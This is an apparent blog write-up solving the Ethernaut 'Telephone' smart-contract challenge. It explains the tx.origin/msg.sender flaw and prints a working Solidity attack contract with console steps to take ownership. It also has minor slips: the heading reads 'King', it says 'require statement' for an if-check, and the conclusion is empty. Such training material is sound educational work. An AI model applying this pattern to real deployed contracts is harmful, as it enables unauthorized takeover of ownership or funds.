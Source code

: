 # King

Welcome to the next solution in my Ethernaut series!
Today we will discuss the 4th problem called Telephone.

This challenge is nothing fancy. Just a contract we need to take control over. There is just one condition we need to satisfy and the contract lets us take the ownership.

## The goal
- Claim ownership of the contract.

## Code review
  
Let's take a look of the target contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### State Variables
We have just one variables declared for the contract.
- Owner is the variable which holds an address for the owner of the contract. 

### Constructor
The constructor is straight forward. It initialized the owner with the address of whoever deploys the contract.

### Functions
This contract has just one function:
- The changeOwner function takes an address as argument. It then updates the owner to that address. But it has a require statement which first check and makes sure that transaction origin ```tx.origin``` is not equal to the sender of the message ```msg.sender```

## Vulnerability
- The vulnerability in this contract is very similar to Cross-Site Request Forgery. Let us first understand the difference between transaction origin and message sender is:
- Message sender is the immediate address from which the communication to the contract has happened. Message sender can be an Externally Owned Account(EOA) and also another contract.
- Transaction origin refers to the address from where the transaction originated. This can only be an (EOA. Lets understand transaction chains:
	- Suppose there are three contracts A, B and C. There is also an EOA James. 
	- James triggers a contract A. A then executes a function in B by sending a transaction to it.
	- B then execute a function in C by sending a transaction. Now in the contract C, msg.sender is address of contract B as B is the immediate sender of communication. But the transaction origin is the address of James as he is the originator of the chain of transactions. As you can see the transaction origin cannot be a contract address.
- Confusion in tx.origin and msg.sender can lead to phishing-style attacks.
- In this problem, while calling the function changeOwner() the message sender and transaction origin should not be the same.

## How to avoid the vulnerability

The way by which we can avoid the vulenrabilities is by not using transaction origin to validate the users as attacker can force the victim to execute a malicious contract. 

## Solution

Below is the attack contract.
```solidity
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract Attack {
    Telephone telephoneContract;

    constructor(Telephone _telephoneContract) {
        telephoneContract = Telephone(_telephoneContract);
    }

    function attack() public {
        telephoneContract.changeOwner(msg.sender);
    }
}

```
### Code Review and analysis

The attack contract is pretty straightforward. 

- Constructor: The constructor takes the address of the target contract to interact with it by using the address to create an object of the telephoneContract contract.
- The only other function is attack(). This function will call the function changeOwner() with the argument of msg.sender from the attack contract, which will be the player's address as in attack contract the msg.sender is the player. As the changeOwner() function is called by our Attack contract, the msg.sender in the target contract will reflect the address of attack contract. Although, the tx.origin will be player's address.

### Attack execution
- Get the address of target contract before deploying Attack contract as our constructor needs the target contract address to interact with it. Use the command ```await contract.address```
- Before trying to attack the target contract, use the command ```await contract.owner()``` which is a public getter function in the target contract to know the current owner of the contract.
- Also try the command ```await contract.changeOnwer()``` to change the contract. As here the player is the message.sender and tx.origin, the require statement in the function will fail.
- Now go ahead and deploy the Attack contract using the target contract's address as the input to the constructor. 
- This will create an instance of attack contract which has the telephoneContract object created pointing to the instance of target contract.
- The next and final step is to call the function attack() on the attack contract. This will call the target contract's changeOwner function.
- check the owner value again by executing command ```await contract.owner()``` and verify that the player address is now the owner variable's value.
- And Voila! we have successfully solved the challenge!`

## Conclusion

